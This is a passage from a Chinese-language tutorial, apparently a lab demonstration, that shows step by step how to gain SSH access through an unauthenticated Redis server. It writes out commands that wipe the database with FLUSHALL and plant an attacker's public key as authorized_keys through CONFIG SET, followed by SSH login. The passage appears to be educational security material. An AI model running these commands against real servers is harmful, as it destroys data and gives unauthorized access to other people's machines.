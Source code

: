 然后把公钥写入到一个txt文件，比如pub.txt：

```
(echo -e "\n\n"; cat id_rsa.pub ; echo -e "\n\n") > pub.txt
```

然后在当前机器上连接`redis-cli -h 172.16.192.153`到没有安全防护的Redis服务器，然后依次执行下面的命令

```
# 先通过本地Redis客户端连接到服务器
$ redis-cli -h 172.16.192.153

# 然后执行Redis的FLUSHALL命令将数据库清空
172.16.192.153:6379> FLUSHALL
OK

# 退出Redis客户端
172.16.192.153:6379> QUIT

# 使用下面命令设置一个新的键值对，将公钥信息写到值中
$ cat pub.txt | redis-cli -h 172.16.192.153 -x set crackit
```

然后重新连接到要攻击的Redis服务端，分别执行下面的命令，设置新的RDB路径，并将数据保存到RDB

```
# 连接到Redis服务端
$ redis-cli -h 172.16.192.153

# 设置新的RDB文件路径
172.16.192.153:6379> CONFIG SET dir /home/xumenger/.ssh
OK
172.16.192.153:6379> CONFIG GET dir
1) "dir"
2) "/home/xumenger/.ssh"

# 设置新的RDB文件名称，并保存数据，现在新的公钥覆盖了原来的SSH公钥
172.16.192.153:6379> CONFIG SET dbfilename "authorized_keys"
OK
172.16.192.153:6379> save
OK
```

上面是要攻击Ubuntu的xumenger用户，同样的，我们也可以试着攻击root用户，那么需要Redis服务端有root权限

好的接下来，我试着用SSH登录到Ubuntu。这里先说一下，如果Ubuntu上没有启动SSH服务也不行，所以为了测试，我先在Ubuntu上安装并启动SSH服务

```
$ sudo apt-get update
$ sudo apt-get install openssh-server
$ /etc/init.d/ssh start
```

然后在Mac上通过`ssh -i id_rsa xumenger@172.16.192.153`命令即可完成登录
